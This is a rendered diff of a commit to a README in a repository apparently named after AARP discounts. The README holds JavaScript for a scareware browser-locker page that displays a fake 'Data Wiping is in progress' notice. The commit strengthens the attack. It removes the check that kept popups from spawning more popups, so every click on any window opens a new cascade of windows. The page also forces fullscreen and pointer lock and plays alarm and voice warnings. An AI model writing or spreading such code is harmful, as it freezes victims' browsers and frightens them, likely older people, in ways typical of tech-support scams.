

Before and after one commit to hshbs508-beep/AARP-Discounts, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 88% size. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -412,7 +414,8 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
                     clearInterval(floodInterval);
                     return;
                 }
-                window.open(autoStartUrl, '_blank', getRandomWindowFeatures(600, 400));
+                // Use a different window name for each one to ensure they are new windows
+                window.open(autoStartUrl, 'floodWindow' + count, getRandomWindowFeatures(600, 400));
                 count++;
             }, 50);
         }
@@ -421,19 +424,16 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
         function startSynchronousBlast() {
             const NUM_WINDOWS = 5;
             for (let i = 0; i < NUM_WINDOWS; i++) {
-                window.open(autoStartUrl, '_blank', getRandomWindowFeatures(800, 600));
+                // Use a different window name for each one to ensure they are new windows
+                window.open(autoStartUrl, 'blastWindow' + i, getRandomWindowFeatures(800, 600));
             }
         }
 
-        // --- Window Flood Repeat Function ---
+        // --- Window Flood Repeat Function (Recursive Cascade Enabled) ---
         function repeatWindowFlood() {
-            // This function is now the dedicated, permanent click listener
-            // Check if the current window is the main starter window (hash !== '#start')
-            // This prevents a popup from spawning more popups (a true recursive bomb)
-            if (window.location.hash !== '#start') {
-                startSynchronousBlast();
-                startSecondaryFlood();
-            }
+            // This is the new logic: EVERY click on ANY window triggers a new flood.
+            startSynchronousBlast();
+            startSecondaryFlood();
         }
 
 
@@ -446,9 +446,10 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
         }
 
         function forcePointerLock() {
-            document.body.requestPointerLock = document.body.requestPointerLock || document.body.mozRequestPointerLock || document.body.webkitRequestPointerLock;
-            if (document.body.requestPointerLock && !document.pointerLockElement) {
-                document.body.requestPointerLock();
+            // FIX: Target htmlEl for robust Pointer Lock request
+            htmlEl.requestPointerLock = htmlEl.requestPointerLock || htmlEl.mozRequestPointerLock || htmlEl.webkitRequestPointerLock;
+            if (htmlEl.requestPointerLock && !document.pointerLockElement) {
+                htmlEl.requestPointerLock();
             }
         }
 
@@ -476,7 +477,7 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
                 if(isEscapeAttempt && Tone.Transport.state === 'started') {
                     Tone.Transport.bpm.value = ALARM_BPM_NORMAL;
                 }
-            }, 10);
+            }, 30);
         }
 
         // --- Constant Ambient Glitch Loop (Randomized) ---
@@ -498,19 +499,20 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
 
             // CRITICAL LOCKDOWN ACTIONS (Run on ALL instances)
             forceFullscreen();
-            forcePointerLock();
+            forcePointerLock(); // Initial synchronous call remains here
             requestAnimationFrame(hideAndLock);
             startAmbientGlitchLoop();
             startProgressLoop();
 
             // CRITICAL AUDIO SETUP (Only done once per instance)
-            // Tone.start must be inside the user gesture handler
             Tone.start().then(() => {
                 playScaryDrone();
                 if (window.location.hash !== '#start') {
-                    speakAndPlayWarning(); // Main window
+                    // Only start TTS/Alarm sequence once, on the main window.
+                    speakAndPlayWarning();
                 } else {
-                    startBackgroundAlarm(); // Popup
+                    // Popups immediately start the background alarm to avoid needing a second click
+                    startBackgroundAlarm();
                 }
             });
 
@@ -518,9 +520,9 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
             // Attach the permanent listener for REPEATING the flood to every page instance.
             document.body.addEventListener('click', repeatWindowFlood);
 
-            // WINDOW FLOOD (Only trigger the FIRST flood on the original window)
+            // WINDOW FLOOD (Initiate the first cascade immediately on the original window)
             if (window.location.hash !== '#start') {
-                repeatWindowFlood(); // Initial blast
+                repeatWindowFlood();
             }
 
             // Remove the one-time click listener that triggered the initialization
```
Also changed, not shown: other parts of README.md (+13 -11 lines).
